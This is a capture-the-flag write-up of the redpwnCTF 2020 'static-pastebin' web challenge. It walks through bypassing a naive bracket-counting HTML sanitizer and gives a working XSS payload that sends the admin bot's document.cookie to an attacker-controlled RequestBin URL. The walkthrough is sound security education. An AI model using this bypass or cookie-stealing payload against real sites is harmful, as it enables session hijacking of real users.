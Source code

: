 ```yaml
---
layout: post
title: redpwnCTF 2020 - static-pastebin
excerpt: An in-depth look at static-pastebin from redpwnCTF 2020. Huge thanks to redpwn for this awesome event!
date: 2020-06-25
tags: redpwnCTF 2020, Web, JavaScript, Cookie Stealing, XSS, RequestBin
author: Noxtal
---
```

 <p align="center">
  <img height=85 src="https://i.imgur.com/hE3Cc7M.png"
 </p>

 An in-depth look at static-pastebin from redpwnCTF 2020. Huge thanks to **redpwn** for this awesome event!

-----

# Description
Web, 373 points
Challenge author: BrownieInMotion

> I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it [here]("https://admin-bot.redpwnc.tf/submit?challenge=static-pastebin")

*Note: if this challenge is not disponible at the time you read this writeup, I've made a similar challenge hosted on my domain. You can find it [here](https://challenges.noxtal.com/redbook).*

# Solution
When we open the challenge's website, we can see a pastebin-like website on which you can create a *paste* and "publish it to the internet". Actually, after analyzing the code a bit, we can find that the *paste*'s URL is only `/paste/#` appended with the paste itself encoded as base64.

We have only got a text input and a button that allows us to reflect what we have typed on another page. This is a perfect playground for XSS. If you don't know XSS yet, I really suggest you learn more about it, as it is a really common attack in real-life scenarios. You can learn more about it on my [learning platform](https://learn.noxtal.com).

Let's test this idea by trying to inject an h1 tag in the *paste*.
![h1 test](https://i.imgur.com/bIM7b3n.png)

Weirdly, it seems like the h1 tag wasn't reflected on the *paste*. That doesn't mean XSS is not possible, it only means that there may be a sanitizer implemented that we need to bypass. By looking at the source provided in Chrome's Developer Tools, we can find a JavaScript file named *script.js*.

```javascript
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const content = window.location.hash.substring(1);
    display(atob(content));
})();

function display(input) {
    document.getElementById('paste').innerHTML = clean(input);
}

function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```

There is the sanitizer, the `clean()` function. As you can probably see, this function removes (or unless tries) to remove every string surrounded by brackets, thus HTML tags. 

## Sanitizer Bypass
We now need to bypass the sanitizer. Let's take a look at the code to figure out how to bypass it. The main loop loops over each character of the *paste*. Then comes the filters: there is a variable named `brackets` which keeps track of if the current character is in between brackets or not. If a less than bracket sign is encountered, this count goes up by 1. Else, if a greater than sign appears, the count goes down by 1. If the count is equal to 0, the current character is reflected on the *paste*. 

After a few bypass attempts, we can find that putting a greater than sign in front of the tag we want to inject, it will actually be reflected. This comes from the fact that this sign makes the count go down by 1, thus when the less than sign will be encountered the `brackets` variable is going to equal zero.

The only con with this technique is that we can only pass one tag, so no classic opening and closing tags. This is not really a problem when using *img* tags, as you will see later on.

## Cookie Stealing
In the challenge's description, we can see we are given an admin bot. The flag must be contained in that admin user. One of the main use of XSS is stealing cookies, meaning we may need to steal the admin bot's cookie. To steal cookies, we only need to inject a tag that requests a page we own with the cookies in the query and give that to the user we want to steal cookies from. This process can be done easily by the use of RequestBin.

RequestBin is a web application allowing you to create a special URL that logs every request made to it so you can analyze them. If we request a RequestBin URL and append `document.cookie` to it, we should get a request logged containing the cookie in the query logged. This is the final payload I came up with. It makes use of an image tag with the `src` parameter set to x and the `onerror` parameter to the JavaScript code we want to execute (in our case requesting the RequestBin link). The `src` parameter will create an error because it was set to an arbitrary value and will trigger the code specified in the `onerror` parameter.

```html
><img src=x onerror=this.src="REQUESTBIN_URL"+document.cookie/>
```

We finally need to put the payload in the paste and give the corresponding URL to the admin bot and we are done! The flag can be found as expected in the admin cookies.
![flag](https://i.imgur.com/JTGRrrh.png)

That's all we got to do to solve this challenge. RedpwnCTF was really fun, even if the challenges were harder than other CTFs I played. I enjoyed doing the web challenges. Huge thanks to **redpwn** for this awesome event. 

If this challenge is not disponible at the time you read this writeup, I've made a similar challenge hosted on my domain. You can find it [here](https://challenges.noxtal.com/redbook).

If you have any questions, feel free to contact me via [Twitter](https://twitter.com/noxtal_) or using any of the methods listed [here](https://writeups.noxtal.com/#/pages/about).